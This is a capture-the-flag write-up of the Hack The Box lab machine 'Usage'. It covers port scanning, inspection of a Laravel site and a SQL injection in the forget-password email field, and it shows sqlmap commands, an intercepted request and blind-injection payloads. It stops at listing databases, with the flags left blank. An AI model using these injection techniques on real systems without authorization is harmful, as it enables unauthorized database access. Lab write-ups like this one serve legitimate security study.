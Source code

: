 # MACHINE - USAGE

IP: 10.10.11.18

Type: Linux

---

## OPEN PORTS

```bash
$ nmap -sVC -T4 -Pn -p- {IP}

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## INSPECTING THE SITE

- There is a redirect to `usage.htb`
- We need to add the IP to the list of hosts in order to open the site

```bash
$ sudo -s
$ echo '{IP} usage.htb' >> /etc/hosts
```

- At this point we can correctly open the site
- As we can see it is a login page
- Using Wappalyzer we can see that it is using

1. *Laravel* as Web Framework
2. *Nginx* as web server version 1.18.0
3. *Nginx* as reverse proxy
4. *PHP* as programming language

- There are two cookies

```
laravel_session=eyJpdiI6IkFYZ1pXZWU5b3k5bkpZSXZud0xkYlE9PSIsInZhbHVlIjoiRVM4
KzRBNW1ORXFaTVF2MWE2SGtTUW9JRjdTeWNpbEpObmRSODlCRHMyYkZDckhJVGNTRFYxTGVCbWdu
ZFZtWXlJditqcXd0STREREc1cTJGL0Z3RUNhcTJuOXUwTmtld1oyTDFXS2F2MUg5N2I3MjVSRmxM
bnhVOHl2K0V6RHIiLCJtYWMiOiIxZThhMTE5YTg3ZjQ1ZWU3ZGJmOTE4MzNlZGIyZmY1ODM2Yjhl
OWZmY2I2M2YwNWVjZDNkYjA4MjFlMWE5ZTczIiwidGFnIjoiIn0%3D

XSRF-TOKEN=eyJpdiI6IkxKdGxIWWNuTGpIVENWUnQwbDgwUnc9PSIsInZhbHVlIjoiVTBTbEFIe
FQ0L2ZxMjdodWsvYisvbW53SWc1SmxkbDhQenJ4UERJTHpoS3BZMnkyVmJpOGFYZkVKSEE1U0NFe
GJrRGRtVHdOOEE5U1cwaDNvWCtOZm5GTjFyTzRLR2VLTDZxLy93VlVjUkFSU1MvTWdUb1lXUUd3T
TgrcStwaFUiLCJtYWMiOiI2YWVlNGM4MDE3NjgzZDRhNDkyZTIwMTk3OTMyMTJlYjMzOTI3OWZmY
WRiMjI5NWZmZmEwODdjOGQyNTY1ZDJjIiwidGFnIjoiIn0%3D
```

> *Cross-Site Request Forgery* (CSRF) is an attack that forces an end user to 
> execute unwanted actions on a web application in which they’re currently 
> authenticated. With a little help of social engineering (such as sending a 
> link via email or chat), an attacker may trick the users of a web application 
> into executing actions of the attacker’s choosing. If the victim is a normal 
> user, a successful CSRF attack can force the user to perform state changing 
> requests like transferring funds, changing their email address, and so forth. 
> If the victim is an administrative account, CSRF can compromise the entire 
> web application.

- Inspecting the page source code there is a 

```html
<input type="hidden" name="_token" value="hzckZuqet2rAE3zAYNiHcbhpen7JWQjk8gG9Qup9">
```

- This token along with XSRF-TOKEN are anti-forgery practice ... hence XSRF is not exploitable
- Moreover, we also see two other pages

1. `post-login`
2. `forget-password`

- Clicking on `Register` and inspecting the source page we see

1. The same token
2. a `post-registration` page used to handle post request

---

## SQL INJECTION

- There are a bunch of form for login/register/forget password
- I would like to not consider the register case
- Tried to login to see if something strange might be used ... nothing found
- Moreover, it does not shows any error or message when providing wrong credentials
- Go to the Forget-password page.
- When we try to enter a non-existent password it gives us an error
- This might seems that it is using some kind of SQL queries to check if provided email exists or not
- It is quite intuitive to try some old SQL injection techniques
- When I try to put the classical `'OR '1'='1` I don't receive any error ... It seems injectable
- Let's check it using SQLMAP
- First let's setup a Manual proxy on `localhost:8080`
- Open BurpSuite and intercept the POST request on `/forget-password`

```
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IjhNQ05BYVJUMUpqeWlNcFZ2eXRIalE9PSIsInZhbHVlI
joiUTlyM0dMdDMwbUZQMUtQblV2Z0dsVFpZLytOZndZQnduQ1Ewbk1LWExEOUhFQ080djZnb
VBNbzR6OHhpTTRVNlFoZkFITVZEU2NPckJNKzlISmJLUjBtRVVDMDJBYjNlNmgrU1Fjc2FkZ
TRMMDZCQWVOWlhHK21VOGxFMW9zZnUiLCJtYWMiOiJjODczYmZlNGM0NGU2ODk0NDU0M2FiN
GZmNDk3OThmNjFhMDg3MGEyYWUwODRlZGExMzRhM2Q1ZWUyNDYwZmM1IiwidGFnIjoiIn0%3D;
laravel_session=eyJpdiI6IndOc0xiVFBkcUZsQVYyTWxNSTB4RGc9PSIsInZhbHVlIjoiS
lZ2V2E1OXVGVjJGZzEvd1M0eFAybTVZNzBrTjdtOE1GMU4zdXgxZFFIL3FMdmVVcHRkaUZNeW
hGaHVFaHd6ZVNQUTJEdzBER280KzZOSGdKNFFKZzgra3pZZXU4ajRiNnZ2OW5XOWptRU9qWXZ
TdGtFSXpPTWJVYXhDWVdJSjMiLCJtYWMiOiJhMDA4ZWFmMWE1OTMxOWJjOTUxMGNiOWQwZTMyM
2RhYTUwZjYxM2I1NTJjMGYwMzcwZjg0NGFlZTU2NzI0YWFmIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1

_token=TZCqMUQsBNAYUzprPXJHjp1VdOQfoDa14vKfJGgP&email=email
```

- Save this request into a file named `request`

```bash
$ sqlmap -r request -p email --batch --risk 3 --level 4 --dbs
```

- The log saved into `/home/{user}/.local/share/sqlmap/output/usage.htb`

```
sqlmap identified the following injection point(s) with a total of 627 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=TZCqMUQsBNAYUzprPXJHjp1VdOQfoDa14vKfJGgP&email=email' 
             AND 7446=(SELECT (CASE WHEN (7446=7446) THEN 7446 ELSE 
             (SELECT 8947 UNION SELECT 1711) END))-- jhlC

    Type: time-based blind
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=TZCqMUQsBNAYUzprPXJHjp1VdOQfoDa14vKfJGgP&email=email' 
             AND 1547=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, 
             INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS 
             C WHERE 0 XOR 1)-- SzQq
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
```

---

## FLAGS

USER:

ROOT: 